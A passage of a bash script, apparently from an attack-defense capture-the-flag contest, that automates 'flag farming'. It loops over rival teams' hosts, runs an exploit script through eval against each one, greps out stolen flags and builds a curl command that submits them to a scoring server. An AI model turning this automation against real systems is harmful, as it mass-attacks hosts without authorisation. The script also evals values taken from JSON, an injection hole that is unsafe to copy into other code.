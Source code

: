```
    else
        echo "Failed submit."
        echo "$stderr"
    fi
}

get_flag() {
    local command="$1"
    local output
    output=$(eval "$command" 2>&1)
    local status=$?
    if [ $status -eq 0 ]; then
        local flag=$(echo "$output" | grep -oP 'TEAM00[0-9]_[A-Z0-9]{32}') # flag format
        flags+=("$flag")
        echo "Get flag successfully! Flag : " $flag
    else
        echo "Failed get flags."
        echo "$output"
    fi
}

farm_flag() {
    local ip_checker=$1
    local team_token=$2
    local service_id=$3

    echo Start farm flag in enemy $enemy_ip with service $enemy_service_id

    # Đọc file flag_ids.json
    if [ ! -f "./flag_ids.json" ]; then
        echo "File flag_ids.json not found."
        exit 1
    fi

    # Đọc nội dung JSON từ flag_ids.json
    flag_ids_data=$(jq -c '.flag_ids' flag_ids.json)

    # Lặp qua từng team_id và team_data
    for team_data in $(echo "$flag_ids_data" | jq -c 'to_entries[]'); do
        team_id=$(echo "$team_data" | jq -r '.key')
        team_host=$(echo "$team_data" | jq -r '.value.host')
        team_flag_ids=$(echo "$team_data" | jq -c '.value.flag_ids[]?')
        echo "----------------------------------------------------------------------------------"
        if [ -n "$team_flag_ids" ]; then
            echo "Get $(echo "$team_flag_ids" | wc -l) flag_id from team $team_id with host $team_host:"
            for team_flag_id in $team_flag_ids; do
                echo "flag_id: $team_flag_id"
                command="/root/exploit.sh http $team_host $team_flag_id" # Command exploit
                echo "run command get flag: " $command 
                get_flag "$command"
            done
        else
            echo "Get 0 flag_id from team $team_id with host $team_host:"
        fi
    done 

    # Ghi mảng flags vào flags.json
    printf '%s\n' "${flags[@]}" | jq -R . | jq -s . > flags.json

    # Gửi dữ liệu flags.json bằng curl
    command="curl -s -H 'X-Team-Token: $team_token' -X PUT --data @flags.json http://$ip_checker/flags?service=$service_id" #submit flag
```